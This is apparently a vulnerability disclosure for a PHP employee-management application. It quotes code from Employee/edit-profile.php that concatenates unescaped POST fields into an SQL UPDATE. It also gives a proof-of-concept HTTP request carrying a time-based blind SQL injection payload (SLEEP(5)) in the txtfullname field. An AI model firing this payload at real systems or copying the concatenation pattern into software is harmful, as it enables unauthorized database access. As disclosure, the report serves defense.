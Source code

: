 ### Vulnerability file address

`Employee/edit-profile.php` from line 8,The `$_POST['txtfullname']` parameter is controllable and the `$_POST['txtfullname']` is not protected from sql injection, line 8`$sql = " update tblemployee set fullname='".$_POST['txtfullname']."',sex='".$_POST['cmdsex']."',dob='".$_POST['txtdob']."',phone='".$_POST['txtphone']."',address='".$_POST['txtaddress']."',qualification='".$_POST['txtqualification']."',dept='".$_POST['cmddept']."',employee_type='".$_POST['cmdemployeetype']."',date_appointment='".$_POST['txtappointment']."',basic_salary='".$_POST['txtbasic_salary']."',gross_pay='".$_POST['txtgross_pay']."' where email='$email'";` ,line 9`mysqli_query($conn, $sql)`Line 15 performs a SQL query, causing SQL injection

```php
<?php
include('../inc/topbar.php');
if (empty($_SESSION['login_email'])) {
    header("Location: ../Account/login.php");
}

if (isset($_POST["btnedit"])) {
    $sql = " update tblemployee set fullname='".$_POST['txtfullname']."',sex='".$_POST['cmdsex']."',dob='".$_POST['txtdob']."',phone='".$_POST['txtphone']."',address='".$_POST['txtaddress']."',qualification='".$_POST['txtqualification']."',dept='".$_POST['cmddept']."',employee_type='".$_POST['cmdemployeetype']."',date_appointment='".$_POST['txtappointment']."',basic_salary='".$_POST['txtbasic_salary']."',gross_pay='".$_POST['txtgross_pay']."' where email='$email'";
    if (mysqli_query($conn, $sql)) {
        header("Location: profile.php");
    } else {
        $_SESSION['error'] = 'Editing Was Not Successful';
    }
}
```

### POC

```http
POST /CMS/php/employee_akpoly/Employee/edit-profile.php HTTP/1.1
Host: 10.0.0.20:82
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 243
Origin: http://10.0.0.20:82
Connection: close
Referer: http://10.0.0.20:82/CMS/php/employee_akpoly/Employee/edit-profile.php
Cookie: PHPSESSID=81293i00fqra5g881e77or40t2
Upgrade-Insecure-Requests: 1

txtfullname='||(SELECT 0x55464841 WHERE 5975=5975 AND (SELECT 1479 FROM (SELECT(SLEEP(5)))kHxj))||'&cmdsex=Male&txtphone=08067361023&txtdob=12/9/1980&txtaddress=12 Ikono rd&txtqualification=Msc&cmddept=Bursary&cmdemployeetype=Academic&txtappointment=9/9/2023&txtbasic_salary=21000&txtgross_pay=25000&btnedit=
```

### Attack results pictures

![image-20250128194648951](https://raw.githubusercontent.com/nixuchuan/imgs/main/202501281946007.png)
